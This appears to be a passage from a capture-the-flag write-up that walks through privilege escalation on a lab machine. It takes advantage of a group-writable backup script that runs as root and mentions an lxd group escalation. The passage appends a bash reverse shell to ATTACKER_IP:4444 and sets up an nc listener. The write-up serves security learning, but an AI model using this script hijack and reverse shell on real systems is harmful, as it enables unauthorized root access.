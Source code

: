```bash
ls -la /usr/local/bin/main_backup.sh /opt/admin_stuff/script.sh /usr/local/sbin/dev_backup.sh
```

```bash
-rwxr-xr-x 1 root root 64 Jan 17  2021 /usr/local/sbin/dev_backup.sh
-rwxr--r-- 1 root root 200 Jan 17  2021 /opt/admin_stuff/script.sh
-rwxrwxr-x 1 root admin 65 Jan 17  2021 /usr/local/bin/main_backup.sh
```

Remember that gyles is part of the `admin` group which 
means `/usr/local/bin/main_backup.sh` is writable!
Since this script is run as root every minute let's 
add a reverse shell into it and start listening

```bash
echo "/bin/bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" >> /usr/local/bin/main_backup.sh

# attacker machine
nc -lvnp 4444
```

![root-revshell](/images/team/team-root-revshell.png)

We have root! Now we can read the root flag and finish 
this box. Unless...

### Unintended Root
Due to a misconfiguration, there's a faster path to root 
that doesn't involve gyles!
> Is dale part of any interesting groups?
{: .prompt-tip }

We can check what groups dale is part of by running 
either of these commands

```bash
id
groups
```

![dale-groups](/images/team/team-dale-groups.png)

Dale is part of the `lxd` group which can be used to 
escalate our privileges directly to root. I used the 
example 
[provided in hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation#exploiting-without-internet){:target="_blank"}{:rel="noopener noreferrer"}
